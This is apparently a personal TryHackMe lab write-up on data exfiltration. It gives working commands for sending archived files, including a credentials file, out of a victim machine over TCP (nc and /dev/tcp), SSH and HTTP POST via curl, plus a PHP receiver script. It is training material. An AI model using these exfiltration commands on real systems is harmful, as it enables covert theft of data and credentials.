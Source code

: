 # Data Exfiltration

## How to use Data Exfiltration
#### Traditional Data Exfiltration
#### C2 Communications
#### Tunneling

## Traditional Data Exfiltration
![exfiltration](https://github.com/nkn-ctrl/TryHackMe/assets/73976100/4b08c31e-0867-49a9-913c-558386ada8a4)  

### Exfiltration using TCP socket

<img src="https://github.com/nkn-ctrl/TryHackMe/assets/73976100/3ef38151-35ff-4e52-9933-f1deaca27a2b" width=600>  

1. The first machine is listening over TCP on port 1337
2. The other machine connects to the port specified in step 1. For example, nc 1.2.3.4 1337
3. The first machine establishes the connection
4. Finally, the sending and receiving data starts. For example, the attacker sends commands and receives results.  

- Listening on port TCP/8080 in the JumpBox
```
thm@jump-box$ nc -lvp 8080 > /tmp/task4-creds.data
Listening on [0.0.0.0] (family 0, port 8080)
```
- Exfiltrate Data over TCP Socket from the victim machine!
```
thm@victim1:$ tar zcf - task4/ | base64 | dd conv=ebcdic > /dev/tcp/[JUMP_BOX_IP]/8080
0+1 records in
0+1 records out
260 bytes copied, 9.8717e-05 s, 2.6 MB/s
```  
- Restoring the tar file
```
thm@jump-box$ cd /tmp/
thm@jump-box:/tmp/$ dd conv=ascii if=task4-creds.data |base64 -d > task4-creds.tar
0+1 records in
0+1 records out
260 bytes transferred in 0.000321 secs (810192 bytes/sec)
```

### Exfiltration using SSH
- Exfiltration data from the victim1 machine
```
thm@victim1:$ tar cf - task5/ | ssh thm@jump.thm.com "cd /tmp/; tar xpf -"
```

## C2 Communications
![exfiltrarion2](https://github.com/nkn-ctrl/TryHackMe/assets/73976100/f32ff963-384a-4d9a-8ebb-91bf35fdc5e1)  

### Exfiltrate using HTTP(S)
#### HTTP Data Exfiltration
1. An attacker sets up a web server with a data handler. In our case, it will be `web.thm.com` and the `contact.php` page as a data handler.
2. A C2 agent or an attacker sends the data. In our case, we will send data using the `curl` command.
3. The webserver receives the data and stores it. In our case, the `contact.php` receives the POST request and stores it into `/tmp`.
4. The attacker logs into the webserver to have a copy of the received data.  

First, we prepared a webserver with a data handler for this task. The following code snapshot is of PHP code to handle POST requests via a file parameter and stores the received data in the `/tmp` directory as `http.bs64` file name.   

```
<?php 
if (isset($_POST['file'])) {
        $file = fopen("/tmp/http.bs64","w");
        fwrite($file, $_POST['file']);
        fclose($file);
   }
?>
```  

- Sending POST data via CURL
```
thm@victim1:~$ curl --data "file=$(tar zcf - task6 | base64)" http://web.thm.com/contact.php
```
- Checking the received data and fix it
```
thm@web:~$ ls -l /tmp/
total 4
-rw-r--r-- 1 www-data www-data 247 Apr 12 16:03 http.bs64
thm@web:~$ cat /tmp/http.bs64
H4sIAAAAAAAAA 3ROw7CMBBFUddZhVcA/sYSHUuJSAoKMLKNYPkkgSriU1kIcU/hGcsuZvTysEtD<
WYua1Ch4P9fRss69dsZ4E6wNTiitlTdC qpTPZxz6ZKUIsVY3v379P6j8j3/8ejzqlyrrDgF3Dr3
On/XLvI3QVshVY1hlv48/64/7I bU5fzJaa 2c5XbazzbTOtvCkxpubbUwIAAAAAAAAAAAAAAAB4
5gZKZxgrACgAAA==

thm@web:~$ sudo sed -i 's/ /+/g' /tmp/http.bs64

thm@web:~$ cat /tmp/http.bs64 | base64 -d | tar xvfz -
tmp/task6/
tmp/task6/creds.txt
```
